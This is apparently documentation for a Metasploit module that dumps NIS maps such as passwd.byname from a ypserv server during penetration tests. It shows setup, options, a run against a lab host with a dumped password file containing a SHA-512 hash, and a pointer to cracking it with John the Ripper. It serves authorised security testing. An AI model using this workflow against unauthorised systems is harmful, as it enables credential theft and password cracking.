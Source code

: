 ## Intro

If you've worked with old Unix systems before, you've probably
encountered NIS (Network Information Service). The most familiar way of
describing it is a sort of hybrid between DNS and LDAP.

[Oracle][1] says the following about it:

> NIS is a distributed naming service. It is a mechanism for identifying and locating network objects and resources. It provides a uniform storage and retrieval method for network-wide information in a transport-protocol and media-independent fashion.

And on its use:

> By running NIS, the system administrator can distribute administrative databases, called maps, among a variety of servers (master and slaves). The administrator can update those databases from a centralized location in an automatic and reliable fashion to ensure that all clients share the same naming service information in a consistent manner throughout the network.

The module documented within will allow a tester to dump any map from an
NIS server (running as `ypserv`). Usually, maps like `passwd.byname`
contain things like hashes and user info, which can go a long way during
a pentest.

## Setup

Set up NIS as per <https://help.ubuntu.com/community/SettingUpNISHowTo>.
If the link is down, you can find it via the Wayback Machine.

## Options

**DOMAIN**

Set this to your NIS domain.

**MAP**

Set this to the NIS map you want to dump. The default is `passwd`. You
can use the nicknames described in the module info instead of the full
map names.

## Usage

```
msf > use auxiliary/gather/nis_ypserv_map
msf auxiliary(gather/nis_ypserv_map) > set rhost 192.168.0.2
rhost => 192.168.0.2
msf auxiliary(gather/nis_ypserv_map) > set domain gesellschaft
domain => gesellschaft
msf auxiliary(gather/nis_ypserv_map) > run

[+] 192.168.0.2:111 - Dumping map passwd.byname on domain gesellschaft:
list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
ubuntu:$6$LXFAVGTO$yiCXi1KjLynOrapuhJE7tKnvdwknDMKiKM7Z8ZB19ht6CHmsS.CbUTm8q0cy5fFHEqA.Sg4Acl.0UtY.Y0JNE1:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
games:*:5:60:games:/usr/games:/usr/sbin/nologin
news:*:9:9:news:/var/spool/news:/usr/sbin/nologin
lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
sys:*:3:3:sys:/dev:/usr/sbin/nologin
backup:*:34:34:backup:/var/backups:/usr/sbin/nologin
uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
systemd-resolve:*:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
man:*:6:12:man:/var/cache/man:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
sync:*:4:65534:sync:/bin:/bin/sync
systemd-network:*:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
uuidd:*:108:112::/run/uuidd:/bin/false
dnsmasq:*:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
root:*:0:0:root:/root:/bin/bash
sshd:*:110:65534::/var/run/sshd:/usr/sbin/nologin
systemd-bus-proxy:*:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
irc:*:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
messagebus:*:107:111::/var/run/dbus:/bin/false
_apt:*:105:65534::/nonexistent:/bin/false
mail:*:8:8:mail:/var/mail:/usr/sbin/nologin
syslog:*:104:108::/home/syslog:/bin/false
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
systemd-timesync:*:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
pollinate:*:111:1::/var/cache/pollinate:/bin/false
www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin
proxy:*:13:13:proxy:/bin:/usr/sbin/nologin
lxd:*:106:65534::/var/lib/lxd/:/bin/false

[*] Auxiliary module execution completed
msf auxiliary(gather/nis_ypserv_map) >
```

After dumping a map, you can find it stored in `loot` later. You should
be able to run something like John the Ripper directly on the
`passwd.byname` map.

```
msf auxiliary(gather/nis_ypserv_map) > loot

Loot
====

host         service  type           name  content     info  path
----         -------  ----           ----  -------     ----  ----
192.168.0.2           passwd.byname        text/plain        /home/wvu/.msf4/loot/20180108143013_default_192.168.0.2_passwd.byname_509006.txt

msf auxiliary(gather/nis_ypserv_map) >
```

[1]: https://docs.oracle.com/cd/E23824_01/html/821-1455/anis1-25461.html
